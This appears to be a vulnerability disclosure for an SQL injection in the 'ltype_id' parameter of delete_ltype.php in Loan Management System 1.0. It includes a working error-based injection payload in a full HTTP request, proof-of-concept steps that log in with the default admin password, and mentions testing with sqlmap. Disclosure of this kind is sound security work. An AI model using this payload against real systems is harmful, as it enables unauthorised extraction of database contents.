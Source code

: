 ```yaml
---
typora-root-url: ./images
---
```


# Loan Management System - delete_ltype.php 'user_id' SQL inject

#### Exploit Title: Loan Management System - delete_ltype.php 'ltype_id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "delete_ltype.php/ltype_id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```php
GET /delete_ltype.php?ltype_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp&user= HTTP/1.1
Host: 192.168.67.11:8091
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.11:8091/loan_type.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bes3u5nf3elraj4jtmpnaoac0n
Connection: close

```

#### Proof of Concept

1、Log in to the system using the default password admin: admin

2、Add a piece of data on the 'Loan Type' page

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/itype1.png)

3、Click 'delete' and grab the package, locate the file as 'delete_ltype.php '.Looking at the source code, it is found that the ltype_id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/itype2.png)

4、We can construct SQL statements to query the name of the database

payload:`http://xxxx/delete_ltype.php?ltype_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp&user= `

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/itype3.png)

5、Testing using the sqlmap tool can also detect SQL injection vulnerabilities

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/itype4.png)
